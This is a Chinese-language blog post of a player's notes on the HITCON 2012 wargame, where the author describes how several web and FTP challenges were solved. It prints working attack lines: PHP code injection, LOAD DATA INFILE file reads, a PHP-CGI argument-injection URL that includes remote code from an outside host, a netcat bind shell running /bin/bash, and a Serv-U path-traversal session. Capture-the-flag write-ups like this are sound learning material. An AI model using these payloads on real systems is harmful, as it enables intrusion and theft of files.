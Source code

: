 ```yaml
---
layout: post
title: "HITCON 2012 Wargame Notes"
tags:
- hit
- hitcon
- note
- hack
- web
- wargame
- security
---
```


今年是第二年來 HITCON ，去年感謝 atdog 大大帶我一起報名 HITCON 玩 wargame ，
本來想說和去年一樣解解 QR code 我就很開心了，沒想到今年運氣不錯 XD

感謝同隊 crax 的組員： atdog xman jeffxx cyen hliu kvchung

Wargame 題目有大大幫忙備分了：[HITCON 2012 Wargame](http://rsghost.org/backup/wargame.hitcon.org/)

## Wargame 心得

這次因為運氣好，所以有幾題 web 都用爛招解掉了 XD
用和 hint 沒關係的解法繞掉其實解的有點心虛，下面是今年我有幫到一些忙的題目：

### Web 1

主要就是利用 `{${fucntion()}}` 來直接執行 php function ，本來想用 `file_get_contents()` 來讀 `key.php` 發現被擋掉了，
所以就試著用 `include()` 再用 `get_defined_vars()` 和 `var_dump()` 看有沒有設什麼變數，還好 `key.php` 是把 key 放在變數裡，
不然的話就要用其他方法去看 source 了。

    http://wg.hack.idv.tw/~ow100/orange.php?name=dm4&data={${include($_GET[key])}}{${var_dump(get_defined_vars())}}
    http://wg.hack.idv.tw/~ow100/yourfiles/dm4.config.php?key=../key.php

### Web 2

利用 Web 3 給的 `sqln00b/sqln00b` 可以登入 phpMyAdmin ，接著把 `key.php` LOAD 到任何一個 table 就可以了：

    CREATE TABLE web2 (src TEXT);
    LOAD DATA LOCAL INFILE '/home/ow200/public_html/key.php' INTO TABLE web2;

### Web 4

從 `info.php` 發現 `Server API: CGI` 想到應該是在說今年的 [PHP CGI vulnerability](http://eindbazen.net/2012/05/php-cgi-advisory-cve-2012-1823/)
，這東西今年出來的時候有看一下，不過其實還是在解題的時候才真的看懂 XD

在 `htaccess.txt` 裡可以看到

    RewriteCond %{QUERY_STRING} \-|\-d[a-z_]+%3d|%2d[a-z_]+%3d [NC]

發現 `%2d` 擋的比較鬆，所以研究了一下可以用

    http://wg.hack.idv.tw/~w100/info.php?%2dd+allow_url_include%3dOn+%2dd+auto_prepend_file%3dhttp://myhost/a.txt

來做 remote code execution ，試了一下就可以發現要找的東西在 `../key.txt` ，所以在 `a.txt` 這樣寫就可以讓它噴 key 了：

    <?php
        system('cat ../key.txt');
        exit();
    ?>

本來以為這題這樣就結束了，不過我們想到既然可以用 `cat` ，搞不好這題可以......

    <?php
        system('nc -l -p 5566 -e /bin/bash');
        exit();
    ?>

然後......

    [~] $ nc wg.hack.idv.tw 5566
    id
    uid=1002(w100) gid=33(www-data) groups=1002(w100),33(www-data)

### Web 3

這題看 hint 應該是要用 mysql client 的 `system` 來解，不過我們利用 Web 4 拿到的 back connect shell
可以發現要找的東西是 `/home/my100/key.txt` ，所以一樣用：

    CREATE TABLE web3 (src TEXT);
    LOAD DATA LOCAL INFILE '/home/my100/key.txt' INTO TABLE web3;

就可以在 Web 2 的 phpMyAdmin 看到 key 囉~

### Web 6

也是用爛招...... 用 Web 4 拿到的 shell 去看 Web 6 的 source ，在 `/home/a200/public_html/index.php`
裡面會判斷如果用 `admin` 登入的話，會噴 base64 encode 之後的 key

### Potent Pwnables 2

`nmap` 完之後發現有開 ftp ，查了一下發現有 [Serv-U FTP Jail Break](http://www.exploit-db.com/exploits/18182/)
和 hint 一模一樣應該就是它了吧 XD 不過那時候肚子太餓又找不到怎麼登入 ftp ，把連結跟 atdog 說了之後我就出去吃點心，
回來之後就被解掉了，id/pw 好像就是 `hitcon2012/hitcon2012` ，隊友好強啊！

關鍵是 `Plz Input "Your" Real ID:` 要用 `wargame.hitcon.org` 的帳號去 generate key.txt 接下來就：

    [~] ➟  ftp jumpochisun.blogsyte.com
    Connected to jumpochisun.blogsyte.com.
    220 Serv-U FTP Server v6.4 for WinSock ready...
    Name (jumpochisun.blogsyte.com:dm4): hitcon2012
    331 User name okay, need password.
    Password: 
    230 User logged in, proceed.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> get ..:/..:/..:/..:/key/dm4key.txt key.txt
    local: key.txt remote: ..:/..:/..:/..:/key/dm4key.txt
    227 Entering Passive Mode (114,36,241,246,15,231)
    150 Opening BINARY mode data connection for dm4key.txt (28 Bytes).
    100% |**************************************************|    28      179.89 KiB/s    00:00 ETA
    226 Transfer complete.
    28 bytes received in 00:00 (0.80 KiB/s)



剩下的時間都在試著解 Web 5 ，以及一直看 [駭客觀察日記](http://www.youtube.com/watch?v=l2dvg3KJoPo)
不過看到結束還是沒找到應該怎麼解......

再次感謝辛苦的主辦單位和工作人員！還有又強又好心收留我帶我一起玩的 crax 隊友！

爽啊！

<a href="http://www.flickr.com/photos/51077287@N06/7635469218/" title="Flickr 上 sunrisedm4 的 hitcon-2012-wargame-socre"><img src="http://farm9.staticflickr.com/8426/7635469218_ee0dbce135.jpg" width="500" height="225" alt="hitcon-2012-wargame-socre"></a>
